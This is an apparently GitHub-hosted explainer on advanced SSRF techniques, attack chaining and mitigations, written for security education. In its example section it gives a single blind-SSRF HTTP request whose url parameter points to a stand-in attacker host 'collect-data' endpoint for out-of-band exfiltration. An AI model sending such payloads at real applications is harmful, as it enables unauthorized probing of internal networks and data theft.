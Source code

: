 # SSRF and Beyond - Advanced Exploitation Techniques

## Table of Contents

1. [Introduction](#introduction)
2. [Advanced SSRF Exploitation Techniques](#advanced-ssrf-exploitation-techniques)
3. [SSRF as Part of a Complex Attack Chain](#ssrf-as-part-of-a-complex-attack-chain)
4. [Mitigation Strategies](#mitigation-strategies)
5. [Example: Advanced SSRF Exploitation](#example-advanced-ssrf-exploitation)
6. [References](#references)

---

## 1. Introduction

Server-Side Request Forgery (SSRF) vulnerabilities, when combined with advanced exploitation techniques, can become a potent weapon for attackers. This document delves into sophisticated methods that adversaries may employ to exploit SSRF and explores scenarios where SSRF plays a crucial role in complex attack chains.

## 2. Advanced SSRF Exploitation Techniques

- **Blind SSRF:**
  - Attackers may leverage blind SSRF to make requests without receiving direct responses. This makes detection and mitigation challenging.

- **Time-Based Attacks:**
  - Exploiting time delays in SSRF responses to infer the success or failure of a request.

- **DNS Rebinding:**
  - Attackers manipulate DNS responses to change the IP address associated with a domain after the initial request is made.

- **Protocol Smuggling:**
  - Abusing ambiguities in parsing protocols to smuggle SSRF requests through different communication layers.

- **HTTP Parameter Pollution (HPP):**
  - Exploiting ambiguities in URL parameter handling to manipulate the server into making unintended requests.

## 3. SSRF as Part of a Complex Attack Chain

- **Lateral Movement:**
  - SSRF can be used to access internal resources, enabling lateral movement within a network and escalating the attack.

- **Data Exfiltration:**
  - Combine SSRF with other vulnerabilities to exfiltrate sensitive data from internal systems.

- **Bypassing Network Security Controls:**
  - SSRF may be employed to bypass network security controls, such as firewalls or Intrusion Detection Systems (IDS).

- **Service Token Theft:**
  - Exploiting SSRF to steal service tokens or credentials, enabling unauthorized access to cloud services.

- **Cross-Site Scripting (XSS) Integration:**
  - Incorporating SSRF within a broader attack, such as combining it with XSS for increased impact.

## 4. Mitigation Strategies

- **Outbound Traffic Monitoring:**
  - Implement comprehensive monitoring for outbound traffic to detect unusual patterns indicative of advanced SSRF attacks.

- **Regular Expression Hardening:**
  - Securely configure regular expressions used for input validation to prevent bypasses in SSRF attempts.

- **Protocol Whitelisting:**
  - Whitelist only the necessary protocols to limit the potential attack surface.

- **Rate Limiting and Throttling:**
  - Implement rate limiting and throttling mechanisms to detect and mitigate time-based SSRF attacks.

- **Secure DNS Configuration:**
  - Regularly audit and secure DNS configurations to prevent DNS rebinding attacks.

## 5. Example: Advanced SSRF Exploitation

Consider an application with a blind SSRF vulnerability. An attacker sends the following payload to infer the internal network's existence:

```http
GET /api/endpoint?url=http://malicious-attacker-server.com/collect-data HTTP/1.1
Host: target-application.com
```

The attacker, not expecting a direct response, monitors their server logs for incoming requests, effectively exfiltrating information.

References
- [Portswigger SSRF](https://portswigger.net/web-security/ssrf)

